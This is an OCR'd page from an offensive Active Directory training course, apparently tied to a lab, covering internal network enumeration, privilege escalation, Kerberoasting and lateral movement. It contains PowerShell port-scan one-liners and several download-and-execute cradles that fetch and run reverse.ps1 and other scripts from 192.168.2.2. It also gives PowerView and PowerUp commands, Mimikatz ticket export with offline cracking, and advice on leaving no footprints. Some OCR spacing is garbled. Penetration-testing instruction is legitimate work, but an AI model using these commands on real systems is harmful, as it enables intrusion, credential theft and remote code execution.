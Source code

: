 ### 4.1  Internal Infrastructure Overview

### 4.2  Infrastructure Enumeration
 • Here, we will try to focus more on mapping the networking devices, hosts present in the Internal environment.
 • The Attackers leverage in-built tools to enumerate and map live hosts in the environment.
 • Since, the internal network mostly comprises of Active Directory environment, we will focus on Abusing the mis-configuation.s. 
 • Tools like nmap, netcator built-in utilities like PowerShell can also be used for enumeration purposes. 
 • Below is the command for scanning open TCP ports from a PowerShell Query.
 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.100",$_)) "Port $_ is open!"} 2>$null

#### 4.2.1  Internal Network Enumeration
Reference: https://www.sans.org/blog/pen-test-poster-white-board-powershell-built-in-port-scanner/
• Below command will scan IP addresses 10.1.1.1-5 and some specific common TCP ports.
 1..20 | % { $a = $_; write-host "------"; write-host "10.0.0.$a"; 22,53,80,445 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.1.1.$a",$_)) "Port $_ is open!"} 2>$null}

#### 4.2.2  Active Directory Essentials
 • In the local environment we have 3 machines setup in a domain environment.
 • One can use Windows PowerShell, Windows native executable for the enumeration and exploitation purposes.
 • In-scope IP address range : 
   − 10.10.10.2    Domain Controller 
   − 10.10.10.3    Application Server
   − 10.10.10.4    Employee System

 • Windows PowerShell
   • It is a .NET interpreter which comes installed by-default on all Windows versions.
   • One can execute binaries and scripts completely in-memory using PowerShell.
   • Through PowerShell one can administer a network and provides access to manage Active Directory environment.
   • Useful for Lateral Movement scenarios
   • PowerShell Remoting
   • Web-Based PowerShell Remoting

• Invoking a PowerShell Module
   • Scripts with extension “*.ps1”, “*.psm1”, “*.psd1” etc can be invoked in a specific PowerShell session as follows : 
     Import-Module <Module_Name.ps1>
   • However a PowerShell script can be invoked in a unique way called “dot sourcing a script” 
     . .\<Script_Name>.ps1

• PowerShell in-memory Download and Execute cradle :  
  $down = [System.NET.WebRequest]::Create("http://192.168.2.2/file.ps1") 
  $read = $down.GetResponse() 
  IEX ([System.IO.StreamReader]($read.GetResponseStream())).ReadToEnd()
  iex(iwr'http://192.168.2.2/file.ps1')
  $file=New-Object -ComObject Msxml2.XMLHTTP;$file.open('GET','http://192.168.2.2/file.ps1',$false);$file.send();iex$file.responseText

$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.2.2/reverse.ps1 ‘);
sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex$response 
iex(New-Object Net.WebClient).DownloadString('https://192.168.2.2/reverse.ps1')

### 4.3 Active Directory Phases Exploitation
 Internal Network Attack Simulation Cycle

 • Recon
   • We already have access to the internal environment.
   • Credentials of a user is found on the Web-Server, which gave us access to the Employee-Machine.
   • In-built functionalities like PowerShell and WMI can be used for situational awareness in the network.
   • Adversary always heads for the direction of placement or setup of critical asset of a company.

Domain Enumeration
• We will use PowerView
   • Get current domain : for enumeration.
     Get-NetDomain
     Get-NetDomain–Domain cyberwarfare.corp
   • Retrieve Current SID and Domain Controller 
     Get-NetDomainController–Domain cyberwarfare.corp
     Get-DomainSID

• Retrieve a list of users in the current domain : 
   Get-NetUser
   Get-NetUser–UserNameemp1

• Retrieve a list of computers in the current domain : 
   Get-NetComputer
   Get-NetComputer–FullData
   Get-NetComputer–OperatingSystem“Windows Server 2016 Standard”

• List all domain groups in the current domain : 
   Get-NetGroup
   Get-NetGroup–FullData
   Get-NetGroup–Domain cyberwarfare.corp

• Enumerate privilege domain group members and local administrators group members. 
   Get-NetGroupMember–GroupName“Domain Admins” -verbose 
   Get-NetLocalGroup–ComputerNameDC-01  -ListGroups

• ACL Enumeration, get the ACLs associated with an entity:
   Get-ObjectAcl-SamAccountName<Domain_User> –ResolveGUIDs
• Unique and interesting ACL Scanning :
   Invoke-ACLScanner–ResolveGUIDs
• Enumerate Domain Trusts : 
   Get-NetDomainTrust
   Get-NetDomainTrust–Domain cyberwarfare.corp

• Enumerate all domain in a Forest :
   Get-NetForestDomain–Verbose
   Get-NetForest -Verbose
• Find computer sessions where current user has local admin access : 
   Find-LocalAdminAccess-Verbose

#### Local Privilege Escalation
• An Adversary tries to escalate privileges from low to high (Administrator, root)
• There are various vulnerabilities that can be abused on Windows/Linux environment :
   • Abuse Elevation Control Mechanism
   • Access Token Manipulation 
   • Boot or Logon Auto-start Execution
   • Process Injection
   • Scheduled Task/Job
   • Valid Accounts

• PowerUP can be used to escalate locally in a Windows environment.
   . .\PowerUP.ps1
   Invoke-AllChecks–Verbose
   • List services which can be configured : 
     Get-ModifiableService -Verbose
   • Unquoted Service Path : 
     Get-ServiceUnquoted-Verbose

### Admin Reconnaissance
• With enough privileges on the Local machine the Adversary will try to perform where Admin users are logged-on. Technique Example : Credential Dumping
• Service accounts generally have Administrator privileges in a machine.
• Well-known attacks like Kerberoasting can be used to brute-force service account credentials.
• We need to find users where a high-privilege domain user like Domain Admin has sessions, this can be done using “Invoke-UserHunter” query.
--> Kerberoasting
• We send all the required details to DC to get a valid TGT, this TGT can be used to get a TGS (for authorization) to access any specific service.
• Upon getting the TGS (encrypted with target service account hash), one can export it and then brute-force it against a password dictionary.
• Also, Administrator generally do not focus on changing the credentials of non-machine service account, we end up getting the clear-text credentials ☺
• In-short, it is the offline brute-forcing of service account credentials.

1. Domain User Name with current time is sent to DC in encrypted form
2. DC decrypts the message & perform a check if everything is OK
3. Got TGT
4. Client Stores TGT in memory & it can be re-requested by local session manager
5. TGT enc with krbtgthash, request a TGS (TGS-REQ)
6. TGS is enc with target service NTLM hash
7. Client using the allotted TGS are authenticated as well as authorized to access DB server
8. Other optional validation requests with the DC is performed.

• Find User accounts which are used as service accounts : 
   Get-NetUser–SPN
• We request the TGS aka service ticket : 
   Request-SPNTicket
• Check ticket in-memory: 
• Export ticket using Mimikatz :
   klist
   Invoke-Mimikatz -Command '"kerberos::list /export“’
• Now, Crack the Service account password using tgsrepcrack.py
   python.exe .	gsrepcrack.py .\passwords.txt ‘.\Ticket.kirbi'

#### Lateral Movement
• The Adversary will try to move laterally in the environment in search for some critical servers/assets.
• Some of the techniques that can be used are :  
   • PowerShell Remoting
   • Windows Management Instrumentation (WMI)
   • Invoke-Mimikatz.ps1 etc
• It is advised to choose a method which is stealth and leave almost no footprints on ANY machines the Adversary is targeting.

--> PowerShell Remoting
• It used WinRM protocol and runs by-default on TCP ports 5985 (HTTP) and 5986 (HTTPS)
• It is a recommended way to manage Windows core servers.
• This comes enabled by-default from Windows Server 2012.
• Adversary uses this utility to connect to remote computers/servers and execute commands upon achieving high privileges.
• Example : Invoke-Command, New-PSSession, Enter-PSSession

• Configuration is easy “Enable-PSRemoting-SkipNetworkProfileCheck-Verbose -Force” as administrator.
• It is used to run commands and scripts on : 



### 4.1  Internal Infrastructure Overview

### 4.2  Infrastructure Enumeration
  #### 4.2.1  Internal Network Enumeration
  #### 4.2.2  Active Directory Environment
### 4.3  Active Directory Phases Exploitation
